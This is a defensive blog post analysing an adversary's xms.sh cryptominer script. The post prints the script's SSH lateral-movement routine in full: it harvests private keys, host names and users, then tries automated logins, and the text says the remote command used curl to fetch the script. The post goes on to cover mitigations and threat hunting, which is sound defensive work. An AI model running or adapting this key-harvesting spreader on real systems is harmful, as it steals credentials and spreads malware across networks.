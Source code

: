 ```yaml
---
layout: page
title: "Automated Lateral Movement Through SSH"
subheadline: "Lateral Movement Technique"
teaser: "Abusing SSH keys for lateral movement"
categories:
tags: 
header:
    title: "Automated Lateral Movement"
    background-color: "#EFC94C;"
    #pattern: pattern_concrete.jpg
    image_fullwidth: /new-tool-tuesday/winSuperMem/header_cyber-sec.jpg
    caption: Image from unsplash
    caption_url: https://unsplash.com/photos/XJXWbfSo2f0
---
```


## Intro

I was analyzing an adversary’s malicious shell script that was dropped onto a victim host during an incident response investigation and observed a fascinating lateral movement technique simply using `ssh` . The malicious shell script was called `xms.sh` and it’s intended purpose was to install a crypto miner on a victim host, then spread to other hosts the victim host had access to. 

## xms.sh

Below is the lateral movment technique:

```bash
# 3 different ways to find ssh keys
KEYS=$(find ~/ /root /home -maxdepth 2 -name 'id_rsa*' | grep -vw pub)
KEYS2=$(cat ~/.ssh/config /home/*/.ssh/config /root/.ssh/config | grep IdentityFile | awk -F "IdentityFile" '{print $2 }')
KEYS3=$(find ~/ /root /home -maxdepth 3 -name '*.pem' | uniq)

# 3 different ways to find host names on the network
HOSTS=$(cat ~/.ssh/config /home/*/.ssh/config /root/.ssh/config | grep HostName | awk -F "HostName" '{print $2}')
HOSTS2=$(cat ~/.bash_history /home/*/.bash_history /root/.bash_history | grep -E "(ssh|scp)" | grep -oP "([0-9]{1,3}\.){3}[0-9]{1,3}")
HOSTS3=$(cat ~/*/.ssh/known_hosts /home/*/.ssh/known_hosts /root/.ssh/known_hosts | grep -oP "([0-9]{1,3}\.){3}[0-9]{1,3}" | uniq)

# find all users from the local host
USERZ=$(
    echo "root"
    find ~/ /root /home -maxdepth 2 -name '\.ssh' | uniq | xargs find | awk '/id_rsa/' | awk -F'/' '{print $3}' | uniq | grep -v "\.ssh"
)

# displays/stores the info found
userlist=$(echo $USERZ | tr ' ' '\n' | nl | sort -u -k2 | sort -n | cut -f2-)
hostlist=$(echo "$HOSTS $HOSTS2 $HOSTS3" | grep -vw 127.0.0.1 | tr ' ' '\n' | nl | sort -u -k2 | sort -n | cut -f2-)
keylist=$(echo "$KEYS $KEYS2 $KEYS3" | tr ' ' '\n' | nl | sort -u -k2 | sort -n | cut -f2-)

# lateral movement with ssh
for user in $userlist; do
    for host in $hostlist; do
        for key in $keylist; do
            chmod +r $key; chmod 400 $key
            ssh -oStrictHostKeyChecking=no -oBatchMode=yes -oConnectTimeout=5 -i $key $user@$host "insert bad command here"
        done
    done
done
```

Let’s break down what is happening.

### Finding ssh keys

The first 3 variables attempt to find private ssh keys on the local host. 

```bash
# 3 different ways to find ssh keys
KEYS=$(find ~/ /root /home -maxdepth 2 -name 'id_rsa*' | grep -vw pub)
KEYS2=$(cat ~/.ssh/config /home/*/.ssh/config /root/.ssh/config | grep IdentityFile | awk -F "IdentityFile" '{print $2 }')
KEYS3=$(find ~/ /root /home -maxdepth 3 -name '*.pem' | uniq)
```

- `KEYS` uses the `find` command to return the file paths of all `id_rsa` private key files.
- `KEYS2` uses the `cat` command to display the contents of all `.ssh/config` files and looks for private ssh key file paths as denoted by `IdentityFile` .
    - [https://linuxize.com/post/using-the-ssh-config-file/#shared-ssh-config-file-example](https://linuxize.com/post/using-the-ssh-config-file/#shared-ssh-config-file-example)
- `KEYS3` uses the `find` command to return the file paths for all private ssh keys in the pem format.

### Finding host names

The next 3 variables attempt to find host names of other machines that the victim host has access to.

```bash
# 3 different ways to find host names on the network
HOSTS=$(cat ~/.ssh/config /home/*/.ssh/config /root/.ssh/config | grep HostName | awk -F "HostName" '{print $2}')
HOSTS2=$(cat ~/.bash_history /home/*/.bash_history /root/.bash_history | grep -E "(ssh|scp)" | grep -oP "([0-9]{1,3}\.){3}[0-9]{1,3}")
HOSTS3=$(cat ~/*/.ssh/known_hosts /home/*/.ssh/known_hosts /root/.ssh/known_hosts | grep -oP "([0-9]{1,3}\.){3}[0-9]{1,3}" | uniq)
```

- `HOSTS` uses the `cat` command to display the contents of all `.ssh/config` files and looks for host names defined within the file.
- `HOSTS2` uses the `cat` comamnd to display the contents of all `.bash_history` files and return all IP addresses.
- `HOSTS3` uses the `cat` command to display the contents of all `known_hosts` files and return all IP addresses.

### Finding valid users

The next variable is used to find all valid user names on the victim host.

```bash
# find all users from the local host
USERZ=$(
    echo "root"
    find ~/ /root /home -maxdepth 2 -name '\.ssh' | uniq | xargs find | awk '/id_rsa/' | awk -F'/' '{print $3}' | uniq | grep -v "\.ssh"
)

```

- `USERZ` uses the `find` command to return all user names that have an `id_rsa` file.

This is a clever technique to omit any users that don’t use ssh keys. 

### Performing lateral movement

With ssh keys, host names, and valid users found the adversary has everything needed to make ssh connections.

```bash
# lateral movement with ssh
for user in $userlist; do
    for host in $hostlist; do
        for key in $keylist; do
            chmod +r $key; chmod 400 $key
            ssh -oStrictHostKeyChecking=no -oBatchMode=yes -oConnectTimeout=5 -i $key $user@$host "insert bad command here"
        done
    done
done
```

Using `for` loops the adversary will enumerate the valid users and perform an ssh connection for every host found using every ssh key found.

 `"insert bad command here"` - this part of the ssh command contained a curl command to have the target ssh host download the malicious `xms.sh` file.

The adversary is also using a timeout period of 5 seconds to speed up the execution time. 

This lateral movement technique is very simple and easy to understand, however it is not perfect.

## Issues and mitigations

This lateral movement technique only works if the adversary has root access. If the adversary only has user level access, then your host’s file ACLs would need to be severely misconfigured for a user to access another user’s private ssh key. But lets assume the adversary has root access.  

### Encrypt private ssh keys

The best defense that will stop this attack completely is to always password encrypt your private ssh key file. Upon creation of an ssh key using `ssh-keygen` , you are asked to set a password for your key. This step can be skipped by simply not setting a password, but no user should ever skip setting a password.

Under some circumstances, you may need to automate an ssh connection and this is where ssh keys not password protected become useful. In this scenario, you should create a new user account to only perform this automation and it’s ssh activity should be closely monitored. 

### Host name hashing

In this lateral movement technique, the adversary uses the `known_hosts` file to pull host names previously connected to. This attack method is not new and OpenSSH has provided a mitigation for it through a config option called HashKnownHosts. Enabling this config option will force the ssh client to hash the host name before logging the information, [read more about his feature](https://techglimpse.com/how-to-hash-known-hosts-files-of-ssh-directory/). 

It should be noted that according to the [ssh_config man page](https://man7.org/linux/man-pages/man5/ssh_config.5.html), this feature is not enabled by default. It’s possible that most modern Linux distros enabled this for you, as my Kali machine already had this feature enabled. For me, this was enabled in file `/etc/ssh/ssh_config` .

With HashKnownHosts on, you can prevent the adversary from discovering additional hosts 

### Bash history

The second method of host discovery from the adversary is by reading the `bash_history` file for every user. Bash history is stored for every bash command executed, even passwords passed on the command line. As a defender, we can configure the `~/.bash_logout` file to clear the bash history after every logout. You could even go as far as to completely disable the logging of bash history. You can learn more about clearing bash history [here](https://www.cyberciti.biz/faq/clear-the-shell-history-in-ubuntu-linux/).

## Threat Hunting

Defenders will always inherit poorly configured machines with poor security standards, so it is important to devise a strategy to detect this lateral movement attack. The adversary will be performing ssh connection attempts with valid user names where some will be successful and some will be unsuccessful. The adversary is only doing one login attempt for every key found for each target host for a given user. I would use a log search tool to look for ssh successful or unsuccessful logins from valid user(s) in a very short time frame. Then I would look further to identify if one host is using multiple user accounts to make the ssh connections.